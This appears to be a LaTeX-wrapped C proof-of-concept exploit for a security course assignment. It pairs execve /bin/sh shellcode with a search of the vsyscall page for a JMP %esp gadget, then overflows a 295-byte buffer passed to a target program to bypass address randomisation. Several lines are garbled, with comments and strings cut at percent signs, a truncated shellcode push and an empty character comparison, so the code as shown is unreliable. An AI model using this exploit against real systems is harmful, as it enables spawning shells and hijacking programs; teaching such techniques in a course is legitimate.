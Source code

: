 \documentclass{article}
\begin{document}
\begin{verbatimtab}
/*
 * va-exploit-poc.c, Exploiting va-vuln-poc.c 
 * under VA patch (Proof of Concept!)
 * - izik@tty64.org
 * Appropriated for CNS assignment by Nic
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char shellcode[] = 
	"\x6a\x0b"              // push $0xb 
	"\x58"                  // pop %
	"\x99"                  // cltd 
	"\x52"                  // push %
	"\x68\x2f\x2f\x73\x68"  // push $0x68732f2f 
	"\x2f\x6e"  // push $0x6e69622f 
	"\x89\xe3"              // mov %
	"\x52"                  // push %
	"\x53"                  // push %
	"\x89\xe1"              // mov %
	"\xcd\x80";             // int $0x80 

unsigned long find_esp(void) {
        int i;
        char *ptr = (char *) 0xffffe000;

	/* Search through memorry for a chunk of ram with the right bits */
	/* We look through this staticly linked shared object for the bits that say: */
	/* "jump to the stack pointer" */
        for (i = 0; i < 4095; i++) {

                if (ptr[i] == '\xff' && ptr[i+1] == '') {
			printf("* Found JMP %
			return (unsigned long) ptr+i;
                }
        }

	return 0;
}

int main(int argc, char **argv) {

	char evilbuf[295];
	char *evilargs[] = { "./commanche", evilbuf , NULL };
	unsigned long retaddr;

	/* find the static memory address of the library we want to ping off */
	retaddr = find_esp();
	if (!retaddr) {
		printf("* No JMP %
		return -1;
	}

	/* loading the weapon
	 * Fill the buffer with some random character (in this case A)
	 * put the return address 12 bytes beyong the end of the buffer
	 * put the code after the return address
	 */
	memset(evilbuf, 0x41, sizeof(evilbuf));
	memcpy(evilbuf+268, &retaddr, sizeof(long));
	memcpy(evilbuf+272, shellcode, sizeof(shellcode));

	execve("./commanche", evilargs, NULL);
	return 1;
}
\end{verbatimtab}
\end{document}

